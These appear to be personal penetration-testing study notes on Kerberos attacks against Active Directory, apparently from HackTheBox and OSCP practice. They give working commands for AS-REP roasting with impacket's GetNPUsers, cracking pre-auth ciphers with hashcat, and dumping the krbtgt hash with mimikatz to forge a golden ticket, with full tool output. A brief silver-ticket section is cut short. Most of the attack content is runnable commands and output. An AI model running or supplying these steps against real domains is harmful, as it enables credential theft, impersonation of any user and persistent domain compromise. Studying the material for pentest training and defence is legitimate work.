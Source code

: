 # Kerberos Attacks
----------------------- 


## AS - REP Roasting
-------------------
if there is no pre auth set for an account we can get the hash of those user accounts

to get accounts w no pre auth set:

```bash
python3 GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -no-pass -usersfile /home/cibbin/oscp/htb/windows/forest/users.txt 

python3 /opt/impacket/examples/GetNPUsers.py htb.local/ -request
```

#### What to do if pre auth is enabled?

if we are not able to do AS - REP roasting, and have the privileges to capture network traffic, we can capture the Pre Auth request (AS - REQ).

cracking the padata value cipher will give us the user password since it is encrypted using the user password.

the cipher is AES256 etype 18

crack the cipher using hashcat beta 

```cmd
hashcat -m 19900
```
-------------------------------------

## Kerberos Golden Ticket 
---------------------------- 
 this attack is used to main persistance after a system compromise 

 the **krbtgt** (key Distribution Center Service Account) account's password will be used to encrypt data sent by kerberos (DC) and if we get the NTLM hash for this account; we can create a golden ticket which will allow us to impersonate anyone.

after getting the hash of krbtgt account (using DC Sync or something), use mimikatz:

/krbtgt: paste just the NT hash (last part)

 get the sid with ```whoami /all``` and strip out the last part of the user sid

```bash
kerberos::golden /domain: /sid: /user: /krbtgt: /ptt:
```

using mimikatz:

```cmd
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166                                                                                 
                                                                                                                             

RID  : 000001f6 (502)                                                                                                                         

User : krbtgt                                                                                                                                 
                                                                                                                                          

 * Primary                                                                                                                                    

    NTLM : 5508500012cc005cf7082a9a89ebdfdf                                                                                                   
```

```cmd

mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500                                                                                                                             
                                                                                                                        

User      : Administrator                                                                                                                     
Domain    : controller.local (CONTROLLER)                                                                                                     
 * Kerberos                                                                                                                                   

    Default Salt : CONTROLLER.LOCALkrbtgt                                                                                                     

    Credentials                                                                                                                               

      des_cbc_md5       : 64ef5d43922f3b5d                                                                                                    

                                                                                                                                          

SID       : S-1-5-21-849420856-2351964222-986696166                                                                                           
SID       : S-1-5-21-849420856-2351964222-986696166                                                                                           
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500                                                                                                                               
Groups Id : *513 512 520 518 519                                        
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt                                                                                    
Lifetime  : 1/13/2022 8:08:38 AM ; 1/11/2032 8:08:38 AM ; 1/11/2032 8:08:38 AM
-> Ticket : ticket.kirbi
 * PAC generated                                                                                                                              

 * PAC signed                                                          

 * EncTicketPart generated                                              

 * EncTicketPart encrypted

 * KrbCred generated                                                   

Final Ticket Saved to file !                                           


mimikatz # misc::cmd                                                   
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF6FBE043B8
mimikatz #
```

-----------------------


## Kerberos Silver Ticket
----------------------------
this attack allows us to prentend that we are domain admin to one specific service

for a service account to be vulnerable, SPN has to be set.

rubeus -> for kerberoasting


